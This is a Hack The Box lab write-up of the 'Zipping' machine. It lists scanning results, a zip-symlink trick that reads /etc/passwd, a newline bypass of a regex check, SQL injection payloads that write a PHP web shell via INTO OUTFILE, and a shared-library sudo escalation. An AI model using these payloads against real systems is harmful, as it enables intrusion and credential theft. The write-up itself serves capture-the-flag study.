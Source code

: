 ```yaml
---
title: Zipping Report
date: 2023-09-14 12:00:00 pm
categories: [HTB]
tags: [HTB, Linux, Medium, SQLI, RCE, LFI, Bash Scripting, Python Scripting]

img_path: /assets/img/htb/writeups/zipping
---
```


## **Information gathering**

* * *
* * *

**Scope:** 10.10.11.229/32 (Linux)

**TCP Nmap scan:** 65,535 ports

* **Open ports**:
	* 22/ssh:
		* Banner grabbing
			- Version: OpenSSH_9.0p1 Ubuntu-1ubuntu7.3
				* [OpenSSH 9.4](https://www.openssh.com/txt/release-9.4)/[9.4p1](https://www.openssh.com/txt/release-9.4) (2023-08-10)
			- Codename: kinetic [codename.py](https://github.com/E1P0TR0/CVE-Machines_htb/blob/main/testing_tools/codename.py)
			- CVEs Version: [https://nvd.nist.gov/vuln/search/results?form_type=Advanced&cves=on&cpe_version=cpe:/a:openbsd:openssh:9.0p1](https://nvd.nist.gov/vuln/search/results?form_type=Advanced&cves=on&cpe_version=cpe:/a:openbsd:openssh:9.0p1)
	* 80/http:
		* Banner grabbing
			* Server: Apache/2.4.54 (Ubuntu)
			* Firefox
				![](firefox_interface.png)
			* Technologies
				* Programming Languages: PHP
				* JavaScript libraries: Jquery 3.4.1
			* Basic url scrapping
				![](url_scrapping_curl.png)
				* http://10.10.11.229/upload.php
					* Description: The application will only **accept zip files, inside them there must be a pdf file** containing your curriculum.
				* http://10.10.11.229/shop
					* Description: Zipping watching store (**Basic LFI vulnerable** [page]) [only .php files]

## **Vulnerability Assesment**

* * *
* * *

* http://10.10.11.229/upload.php (ZIP automatically decompressed upload)
	* [https://book.hacktricks.xyz/pentesting-web/file-upload#zip-tar-file-automatically-decompressed-upload](https://book.hacktricks.xyz/pentesting-web/file-upload#zip-tar-file-automatically-decompressed-upload)
		![](zip_symlinks_ht.png)
		* Steps:
			* ln -rs /etc/passwd reader.pdf
			* zip --symlinks reader.zip reader.pdf
			![](zip_lfi_pdf.png)
* Code analisys
	* (/shop/cart.php)
		![](cart_php.png)
		* preg_match: To bypass this check you could **send the value with new-lines urlencoded** (`%0A`) [https://book.hacktricks.xyz/network-services-pentesting/pentesting-web/php-tricks-esp#preg_match-.](https://book.hacktricks.xyz/network-services-pentesting/pentesting-web/php-tricks-esp#preg_match-.)
	* (/shop/index.php)
		![](index_php.png)
		* We can include any .php file in "page" parameter
	* Create phpinfo file in a directory with permissions and read it
		* Payload: ';select+'\<?php+phpinfo(); ?>'+into+outfile+'/var/lib/mysql/phpinfo.php';#1
			![](sqli_poc.png)
			![](sqli_out.png)

## **Exploitation**

* * *
* * *

* rektsu RCE
	* Payload: %0a';select '\<?php system($\_GET\["cmd"]); ?>' into outfile '/var/lib/mysql/rce_poc.php';#1
		![](rce_poc.png)

## **Post-exploitation**

* * *
* * *

* Rekztu user
	* Sudo binary without password (/usr/bin/stock)
		* Shared Libraries [https://tbhaxor.com/understanding-concept-of-shared-libraries/](https://tbhaxor.com/understanding-concept-of-shared-libraries/)
			![](lib_call.png)
			![](root.png)

## **Lateral movement**

* * *
* * *

## **Proof of concept**

* * *
* * *

* http://10.10.11.229/upload.php (ZIP automatically decompressed upload)
	* Bash script (zip_reader.sh)
		![](zip_lfi_poc.png)
* http://10.10.11.229/shop/cart.php & http://10.10.11.229/shop/index.php?page (SQLI and PHP include)
	* Python script
		![](sqli_rce_poc.png)
* Repository scripts [https://github.com/E1P0TR0/CVE-Machines_htb/tree/main/Auto-tools_Zipping](https://github.com/E1P0TR0/CVE-Machines_htb/tree/main/Auto-tools_Zipping)